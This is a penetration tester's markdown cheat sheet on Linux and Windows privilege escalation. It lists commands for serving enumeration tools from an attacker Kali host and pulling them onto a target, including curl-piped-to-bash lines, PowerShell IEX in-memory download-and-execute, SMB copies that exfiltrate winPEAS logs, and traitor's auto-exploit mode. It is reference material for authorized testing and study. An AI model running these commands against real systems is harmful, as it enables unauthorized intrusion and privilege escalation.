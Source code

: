 # Privilege Escalation

## Linux

- HTTP

Host the file

```bash
cd /opt/linux_privesc
sudo python -m http.server 80
```

### LinPEAS

```bash
curl http://<Kali IP>/linpeas.sh | bash
```

or

```bash
wget http://<Kali IP>/linpeas.sh
bash linpeas.sh
```

### LinEnum.sh

```bash
curl http://<Kali IP>/LinEnum.sh | bash
```

or

```bash
wget http://<Kali IP>/LinEnum.sh
bash LinEnum.sh
```

### linuxprivchecker.py

```bash
wget http://<Kali IP>/linuxprivchecker.py
python linuxprivchecker.py
```

### Trator

```bash
wget http://<Kali IP>/traitor-amd64
chmod +x traitor-amd64
./traitor-amd64 -a
```

### pspy

```bash
wget http://<Kali IP>/pspy64s
chmod +x pspy64s
./pspy64s
```

## Windows

### winPEAS

- HTTP

Host the file

```bash
cd /usr/share/windows-resources/binaries
sudo python -m http.server 80
```

Copy on Target and execute

```powershell
Invoke-WebRequest -Uri 'http://<Kali IP>/winPEASany.exe' -OutFile <Path>\winPEASany.exe
<Path>\winPEASany.exe
```

Or execute direct on memory

```powershell
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/winPEASany.exe')
```

- SMB

Host the file

```bash
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

```bash
net use \\<Kali IP>\share
copy \\<Kali IP>\share\winPEASany.exe .
winPEASany.exe
```

or

```bash
xcopy \\<Kali IP>\share\winPEASany.exe C:\Temp\winPEAS\

cd C:\Temp\winPEAS
C:\Temp\winPEAS\winPEASany.exe > C:\Temp\winPEAS\winPEAS.log

xcopy C:\Temp\winPEAS\winPEAS.log \\<Kali IP>\share\
```

### PowerUp

- HTTP

Host the file

```bash
cd /usr/share/windows-resources/powersploit/Privesc/
sudo python -m http.server 80
```

Copy on Target and execute

```powershell
Invoke-WebRequest -Uri 'http://<Kali IP>/PowerUp.ps1' -OutFile <Path>\PowerUp.ps1
Import-Module <Path>\PowerUp.ps1
Invoke-AllChecks
```

Or execute direct on memory

```powershell
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/PowerUp.ps1')
Invoke-AllChecks
```

- SMB

Host the file

```bash
cd /usr/share/windows-resources/powersploit/Privesc/
impacket-smbserver share $(pwd) -smb2support
```

```powershell
net use \\<Kali IP>\share
copy \\<Kali IP>\share\PowerUp.ps1 .
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

or

```powershell
xcopy \\<Kali IP>\share\PowerUp.ps1 C:\Temp\PowerUp\

Import-Module C:\Temp\PowerUp\PowerUp.ps1
Invoke-AllChecks
```

## Links

- [Basic Linux privilege escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [Linux - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker)
- [Trator](https://github.com/liamg/traitor)
- [GTFOBins](https://gtfobins.github.io/)
- [pspy](https://github.com/DominicBreuker/pspy)
- [Windows - blog- uac-bypass](https://juggernaut-sec.com/uac-bypass/)
- [Windows - how uac-bypass work](https://cqureacademy.com/cqure-labs/cqlabs-how-uac-bypass-methods-really-work-by-adrian-denkiewicz)
- [Windows - UACMe - uac-bypass](https://github.com/hfiref0x/UACME)
